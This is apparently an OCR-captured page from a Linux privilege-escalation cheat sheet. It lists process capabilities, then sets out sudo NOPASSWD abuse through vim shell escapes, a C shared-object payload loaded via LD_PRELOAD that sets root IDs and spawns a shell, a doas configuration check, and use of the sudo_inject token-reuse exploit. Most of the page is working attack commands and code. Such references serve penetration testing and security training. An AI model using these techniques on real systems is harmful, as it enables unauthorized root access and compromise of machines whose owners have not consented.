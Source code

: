     CAP_SETGID	Allow changing of the GID
    CAP_SETUID	Allow changing of the UID
    CAP_SETPCAP	Helps to transferring and removal of current set to any PID
    CAP_IPC_LOCK	This helps to lock memory
    CAP_MAC_ADMIN	Allow MAC configuration or state changes
    CAP_NET_RAW	Use RAW and PACKET sockets
    CAP_NET_BIND_SERVICE	SERVICE Bind a socket to internet domain privileged ports
    SUDO
    Tool: Sudo Exploitation
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
NOPASSWD

    Sudo configuration might allow a user to execute some command with another user's privileges without knowing the password.
    $ sudo -l
    User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
    In this example the user demo can run vim as root, it is now trivial to get a shell by adding an ssh key into the root directory or by calling sh.
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

sudo vim -c '!sh'
sudo -u root vim -c '!sh'
LD_PRELOAD and NOPASSWD
If LD_PRELOAD is explicitly defined in the sudoers file


Defaults        env_keep += LD_PRELOAD
Compile the following shared object using the C code below with gcc -fPIC -shared -o shell.so shell.c -nostartfiles


#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
Execute any binary with the LD_PRELOAD to spawn a shell : sudo LD_PRELOAD=<full_path_to_so_file> <program>, e.g: sudo LD_PRELOAD=/tmp/shell.so find

Doas
There are some alternatives to the sudo binary such as doas for OpenBSD, remember to check its configuration at /etc/doas.conf


permit nopass demo as root cmd vim
sudo_inject
Using https://github.com/nongiach/sudo_inject


    $ sudo whatever
    [sudo] password for user:    
    # Press <ctrl>+c since you don't have the password. 
    # This creates an invalid sudo tokens.
    $ sh exploit.sh
    .... wait 1 seconds
    $ sudo -i # no password required :)
    # id